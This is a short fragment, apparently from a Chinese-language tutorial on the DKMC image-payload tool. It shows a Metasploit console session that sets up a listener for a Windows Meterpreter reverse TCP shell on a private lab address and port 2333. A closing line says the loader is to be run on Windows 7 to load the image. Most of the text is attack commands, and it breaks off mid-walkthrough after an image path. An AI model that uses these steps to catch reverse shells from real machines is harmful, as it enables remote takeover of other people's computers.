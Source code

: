 ```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.222.141
LHOST => 192.168.222.141
msf exploit(handler) > set LPORT 2333
LPORT => 2333
msf exploit(handler) > run
```
![](/img/hack/DKMC/1505273931097.png)


在windows7中使用加载器加载图片：
